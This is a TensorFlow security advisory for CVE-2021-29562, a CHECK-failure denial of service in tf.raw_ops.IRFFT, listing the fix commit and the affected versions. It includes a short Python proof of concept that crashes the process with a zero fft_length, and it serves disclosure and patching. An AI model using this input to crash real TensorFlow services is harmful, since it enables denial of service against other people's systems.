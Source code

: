 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-050.md
## TFSA-2021-050: `CHECK`-fail in `tf.raw_ops.IRFFT`

### CVE Number
CVE-2021-29562

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from the implementation of `tf.raw_ops.IRFFT`:

```python
import tensorflow as tf

values = [-10.0] * 130
values[0] = -9.999999999999995
inputs = tf.constant(values, shape=[10, 13], dtype=tf.float32)
inputs = tf.cast(inputs, dtype=tf.complex64)
fft_length = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.IRFFT(input=inputs, fft_length=fft_length)
```

The above example causes Eigen code to operate on an empty matrix. This triggers
on an assertion and causes program termination.

### Patches
We have patched the issue in GitHub commit
[1c56f53be0b722ca657cbc7df461ed676c8642a2](https://github.com/tensorflow/tensorflow/commit/1c56f53be0b722ca657cbc7df461ed676c8642a2).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
